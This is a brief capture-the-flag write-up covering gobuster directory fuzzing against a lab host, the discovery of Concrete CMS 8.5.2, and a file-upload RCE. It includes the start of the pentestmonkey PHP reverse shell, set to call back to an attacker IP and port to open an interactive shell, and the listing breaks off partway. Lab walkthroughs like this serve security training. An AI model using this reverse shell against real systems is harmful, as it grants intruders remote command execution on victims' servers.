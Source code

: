 I use gobuster to Fuzzing dir

{% code overflow="wrap" %}
```bash
gobuster dir  -u http://10.10.112.62:85/ --wordlist=/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>



i Found  /app (Status: 301) \[Size: 312] \[--> **`http://10.10.112.62:85/app/`**]

when scroll down i found login page and i use Wayyplazer found CMS Concrete => V8.5.2

#### File Upload code

{% hint style="danger" %}
There’s an existing RCE vulnerability in Concrete CMS 8.5.2.

i use Revers shell online [https://www.revshells.com/](https://www.revshells.com/)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.21.32.157';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }
```
